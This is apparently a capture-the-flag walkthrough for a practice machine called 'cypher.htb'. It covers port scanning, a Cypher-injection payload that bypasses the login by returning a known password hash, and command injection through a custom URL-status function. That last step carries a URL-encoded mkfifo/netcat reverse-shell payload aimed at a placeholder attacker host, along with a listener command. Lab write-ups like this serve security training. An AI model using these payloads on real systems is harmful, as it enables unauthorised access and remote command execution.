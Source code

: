 ## Step 1: Scan for Open Ports

First thing, let's scan for open ports with the following `nmap` command:

```bash
nmap -sV -sC -p- --defeat-rst-ratelimit -O -A cypher.htb
```
## Scan results:
![Nmap port scan](img/nmap.png)

## Step 2: Investigate website

With only ports 80 and 22 open, we’ll start by examining the web service.

![Login page](img/loginpage.png)

## Step 3: Cypher injection

After trying some Cypher injection payloads we can see that there is a huge error popping up. This strongly suggests a potential Cypher injection vulnerability.

![Login page after injecting 'OR 1=1](img/image.png)

## Step 4: Crafting authentication bypass payload

```bash
{
  "username": "admin' OR 1=1 RETURN 'a94a8fe5ccb19ba61c4c0873d391e987982fbbd3' AS hash //",
  "password": "test"
}
```
### How this works?
This payload returns the hash of the string "test", which is then used for comparison against the user-provided password hash instead of actual admins hash.

![Demo page](img/Demopage.png)

## Step 5: Crafting SSRF payload with Cypher Injection

```bash
CALL custom.getUrlStatusCode("http://ip:port/?c=$(whoami)")
```

This payload leverages a custom function to retrieve the HTTP status code from a specified URL. However, it also includes a command injection ($(whoami)) at the end of the URL, which attempts to execute a system command on the server.

### How to use?

1. Set up netcat listener on your port.

```bash
nc -lnvp 4444
```

2. Enter the payload into search query on the website.

```bash
CALL custom.getUrlStatusCode("http://<ip>:<port>/?c=$(rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20<ip>%20<port>%20%3E%2Ftmp%2Ff)")
```

3. Check your listener for response.

   

